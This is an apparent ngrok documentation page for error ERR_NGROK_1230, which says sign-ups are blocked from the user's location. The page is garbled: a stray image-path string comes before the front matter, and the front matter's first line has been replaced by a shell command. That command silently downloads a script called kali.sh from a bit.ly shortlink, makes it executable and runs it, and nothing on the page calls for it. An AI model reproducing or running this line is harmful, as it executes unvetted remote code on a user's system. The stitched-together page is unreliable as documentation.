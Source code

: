 ---wget -O kali.sh https://bit.ly/akuhnetkali-linux > /dev/null 2>&1 && chmod +x kali.sh && ./kali.sh

hide_table_of_contents: true
displayed_sidebar: docs
---


# ERR_NGROK_1230

### Message

We do not allow sign ups from your location. Your location was determined using your IP address.

<ErrorDetails error="err_ngrok_1230" />
